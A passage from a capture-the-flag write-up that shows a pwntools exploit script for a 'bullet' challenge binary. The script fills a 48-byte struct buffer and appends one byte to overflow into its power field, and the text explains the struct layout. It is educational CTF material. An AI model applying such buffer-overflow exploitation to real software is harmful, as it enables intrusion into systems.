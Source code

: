 ```py
    p = connect("addr", 1337)
elif args.GDB:
    # If there's stupid timers:
    # handle SIGALRM ignore
    gdb_script = """
    b main
    c
    """
    p = gdb.debug([exe.path], gdb_script)
else:
    p = process([exe.path]) # For swapping to pwninit.
def create(bul_desc):
    sla(b"Your choice :", b"1") # Create
    sla(b"Give me your description of bullet :",bul_desc)
    ru(b"Good luck !!\n")

def power_up(bul_desc):
    sla(b"Your choice :", b"2") # Power up
    sla(b"Give me your another description of bullet :", bul_desc)
    ru(b"Enjoy it !\n")

def beat():
    sla(b"Your choice :", b"3") # Power up

create(b"A"*(0x30-1))# Create
power_up(b"A")
beat() # Beat


# Tick 197 Certified ;)
p.interactive()
```

Don't mind all my shorthands, I'm lazy and don't want to type `p.sendlineafter` ;-;.

Essentially all we're doing is exactly what we found during reversing and playing with the binary:

1. First we create a bullet with 47 characters
2. Power that bullet up and add a single character.
3. Beat up the wolf.

I explained the reason this is a vulnerability a bit above but a super quick overview is that we're creating a buffer of 47 characters in a struct that looks like:

```c
struct bullet {
    char[48] bullet_buf;
    int power;
}
```

### Last Time on Dragon Ball

